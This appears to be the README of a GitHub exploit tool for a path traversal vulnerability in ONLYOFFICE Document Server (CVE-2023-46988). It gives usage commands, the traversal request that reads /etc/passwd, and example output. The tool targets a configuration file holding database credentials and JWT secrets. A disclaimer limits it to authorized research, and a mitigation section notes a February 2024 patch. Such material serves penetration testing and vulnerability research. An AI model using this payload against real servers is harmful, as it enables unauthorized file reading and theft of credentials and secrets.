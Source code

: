 # ONLYOFFICE Path Traversal Exploit (CVE-2023-46988)

## 📌 Overview

This script exploits a **path traversal vulnerability** in **ONLYOFFICE Document Server** (**CVE-2023-46988**) that allows unauthorized users to **copy arbitrary files** from the server. The vulnerability exists in the `/example/editor` endpoint, where the `fileExt` parameter can be manipulated to access sensitive system and configuration files.

## ⚠️ Disclaimer

This tool is for **educational and authorized security research purposes only**.  
Unauthorized use against systems without **explicit permission** is illegal and unethical.

## 🛠 Features

- Retrieve **default sensitive files**:
  - `/etc/passwd`
  - `/etc/onlyoffice/documentserver/local.json` (contains **database credentials & JWT secrets**)
- Specify **any file path** to retrieve with the `--file` argument.
- Supports **optional proxying** for Burp Suite interception (`--proxy`).
- Supports **optional SSL verification** (`--verify`).
- **Fixes encoding issues** when downloading files with special characters.

## 🚀 Usage

### **1️⃣ Basic Usage (Retrieve Default Files)**

```bash
python onlyoffice_exploit.py http://localhost
```

This retrieves:
- `/etc/passwd`
- `/etc/onlyoffice/documentserver/local.json`

### **2️⃣ Retrieve a Custom File (e.g., `/etc/hosts`)**

```bash
python onlyoffice_exploit.py http://localhost --file /etc/hosts
```

### **3️⃣ Enable Proxy (e.g., Burp Suite on `127.0.0.1:8080`)**

```bash
python onlyoffice_exploit.py http://localhost --proxy
```
```bash
python onlyoffice_exploit.py http://localhost --proxy http://127.0.0.1:8080
```

### **4️⃣ Enable SSL Verification**

```bash
python onlyoffice_exploit.py https://example.local --verify
```

### **5️⃣ Combine Proxy & SSL Verification**

```bash
python onlyoffice_exploit.py https://example.local --file /etc/hosts --proxy --verify
```

## 🔍 How It Works

1. **Sends a request** to `/example/editor` with a malicious `fileExt` parameter:
   ```
   GET /example/editor?fileExt=../../../../../../../../etc/passwd
   ```
2. **Extracts the redirect URL** from the response.
3. **Parses the redirected filename** from the response.
4. **Fixes encoding issues** for special characters in filenames.
5. **Downloads the file** from `/example/download?fileName=<extracted_filename>`.

## 🛠 Example Output

``` 
[*] Target URL: http://localhost
[*] Attempting to retrieve: /etc/passwd
[*] Sending request to: http://localhost/example/editor?fileExt=../../../../../../../../etc/passwd
[+] Extracted Redirect URL: http://localhost/example/download?fileName=.passwd
[+] Extracted File Name: .passwd
[*] Downloading file: http://localhost/example/download?fileName=.passwd
[+] File downloaded successfully: .passwd
```

## 🔒 Mitigation

ONLYOFFICE has patched this vulnerability in their **February 2024 update**.  
Users should **update to the latest version** to protect their servers.

## 🐜 License

This project is licensed under the **MIT License** – see the [LICENSE](LICENSE) file for details.

